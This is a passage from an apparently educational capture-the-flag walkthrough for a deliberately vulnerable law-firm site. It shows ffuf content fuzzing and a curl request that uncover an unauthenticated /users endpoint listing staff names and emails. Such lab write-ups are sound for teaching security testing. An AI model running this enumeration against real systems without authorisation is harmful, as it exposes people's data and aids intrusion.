 Opening the URL `http://www.vulnlawyers.co.uk/lawyers-only` will bring us to a
login screen. Now we can start gaining some unrequisited privileges.

### Pipelining (Enumeration)

The current goal is to log in, but we lack any user data. Thinking back, the
`data.vulnlawyers.co.uk` probably contains some of that precious user data.
Actually, we have yet to enumerate files and folders. Not you tho, no, while we
were trying to figure out how to access the login page, you have of course
started `ffuf`'ing (that's not a word, but it should be) the domain. If you
haven't, keep in mind that reconnaissance can sometimes take a long time.
Minimize waiting and keep that noggin of yours churning.

```
$ ffuf -w ~/Documents/Playground/wordlists/content.txt -t 1 -p 0.1 -H "Cookie: ctfchallenge=<your_ctf_cookie>" -u http://data.vulnlawyers.co.uk/FUZZ


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

[...]
________________________________________________
users                   [Status: 200, Size: 406, Words: 6, Lines: 1, Duration: 21ms]
```

'Lo and behold, an endpoint called `/users`. Let's employ `curl` and see what it
holds.
```
curl data.vulnlawyers.co.uk/users -H "Cooki e: ctfchallenge=<your_ctf_cookie>"
{
  "users": [
    {
      "name": "Yusef Mcclain",
      "email": "yusef.mcclain@vulnlawyers.co.uk"
    },
    {
      "name": "Shayne Cairns",
      "email": "shayne.cairns@vulnlawyers.co.uk"
    },
    {
      "name": "Eisa Evans",
      "email": "eisa.evans@vulnlawyers.co.uk"
    },
    {
      "name": "Jaskaran Lowe",
      "email": "jaskaran.lowe@vulnlawyers.co.uk"
    },
    {
      "name": "Marsha Blankenship",
      "email": "marsha.blankenship@vulnlawyers.co.uk"
    }
  ],
  "flag": "[^FLAG^https://media.giphy.com/media/26gs6vEzlpaxuYgso/giphy.gif^FLAG^]"
}
```


[^1]: [302 Found](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/302)